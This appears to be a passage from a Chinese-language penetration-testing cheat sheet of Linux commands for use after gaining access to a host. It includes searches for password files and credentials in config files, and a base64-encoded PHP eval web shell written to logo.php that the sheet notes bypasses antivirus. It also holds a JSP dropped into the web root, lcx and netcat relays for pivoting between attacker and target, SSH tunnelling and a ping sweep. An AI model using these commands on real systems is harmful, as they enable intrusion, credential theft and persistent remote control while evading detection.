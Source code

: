 chkconfig --list  
chkconfig --list | grep 3:on  
查看缓存:  
arp -e  
route  
/sbin/route -nee

---

### Linux-其他常用命令

linux设置终端代理： export https\_proxy\=http://127.0.0.1:7890 http\_proxy\=http://127.0.0.1:7890 all\_proxy\=socks5://127.0.0.1:7890  
linx终端搜索软件： find / -name pass.txt  
linux查找后缀properties文件内容带password字样： find / -name \*.properties | xargs grep password //xml,sh,python等等  
linux把tomcat目录文件和文件夹列表导出到oa.txt： find /home/tomcat/ -type f > oa.txt  
编码字符base64然后echo输出logo.php再进行解码： echo -n "PD9waHAgZXZhbCgkX1BPU1RbY21kXSk7Pz4+" | base64 -d > logo.php //可绕过杀软拦截关键字

---

### Linux-端口转发

LCX:  
lcx -  
cx -listen 4567 33891 #Attacker  
lcx -slave 111.222.333.444 4567 127.0.0.1 3389 # On the targets  
SSH:  
ssh -[L/R] [local port]:[remote ip]:[remote port] [local user]@[local ip]  
ssh -L 8080:127.0.0.1:80 root@192.168.1.7 # Local Port  
ssh -R 8080:127.0.0.1:80 root@192.168.1.7 # Remote Port  
mknod:  
mknod backpipe p ; nc -l -p [remote port] < backpipe | nc [local IP] [local port] >backpipe  
mknod backpipe p ; nc -l -p 8080 < backpipe | nc 10.1.1.251 80 >backpipe  
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow 1>backpipe # Proxy (Port 80 to 8080)  
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow & 1>backpipe # Proxy monitor (Port 80 to 8080)  
隧道:  
ssh -D 127.0.0.1:9050 -N [username]@[ip]  
proxychains ifconfig

---

### Linux-查找文件

find / -name passwd

---

### Linux-写文件

echo xxxxx== |base64 -d > /var/www/html/1.jsp

---

### Linux-网络Ping探测

for i in 192.168.0.{1..254}; do if ping -c 3 -w 3 \$i &>/dev/null; then echo \$i is alived; fi; done

‍

‍
